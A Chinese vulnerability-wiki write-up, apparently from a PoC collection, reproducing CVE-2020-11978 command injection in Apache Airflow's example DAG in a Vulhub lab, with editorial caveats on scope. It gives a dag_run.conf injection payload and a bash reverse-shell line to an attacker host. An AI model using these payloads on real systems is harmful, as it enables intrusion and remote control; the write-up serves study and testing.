





# Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=1.10.10受影响示例DAG已安装/可启用，攻击者能触发并控制dag_run.conf；无鉴权只是特定部署
- 证据范围：message到Worker shell注入过程连贯，操作在控制台完成，不能泛称所有安装未授权

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 应前置示例DAG/触发权限及auth配置，默认登录页不自动等于无登录可操作
- 缺固定版本及删除样例DAG的缓解
- 任务会实际执行并写文件，图片成功仅来源证据

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：



再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：



等几秒可以看到执行成功：



到CeleryWorker容器中进行查看：

```shell
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：



### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/your-vps-ip/9999 0>&1;#"}
```




---

> 来源：Threekiii/Awesome-POC
